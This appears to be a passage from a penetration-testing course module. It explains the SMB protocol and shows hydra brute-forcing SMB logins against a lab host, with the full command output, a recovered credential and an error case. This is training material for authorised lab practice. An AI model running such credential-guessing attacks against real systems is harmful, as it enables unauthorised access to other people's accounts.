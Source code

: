 ***

### SMB

[Server Message Block](https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) (`SMB`) is a protocol responsible for transferring data between a client and a server in local area networks. It is used to implement file and directory sharing and printing services in Windows networks. SMB is often referred to as a file system, but it is not. SMB can be compared to `NFS` for Unix and Linux for providing drives on local networks.

SMB is also known as [Common Internet File System](https://cifs.com/) (`CIFS`). It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS. In addition, we will often encounter [Samba](https://wiki.samba.org/index.php/Main\_Page), which is an open-source implementation of the above functions. For SMB, we can also use `hydra` again to try different usernames in combination with different passwords.

**Hydra - SMB**

Network Services

```shell-session
AIceBear@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:37:31
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[445][smb] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid passwords found
```

However, we may also get the following error describing that the server has sent an invalid reply.

**Hydra - Error**

Network Services

```shell-session
AIceBear@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```
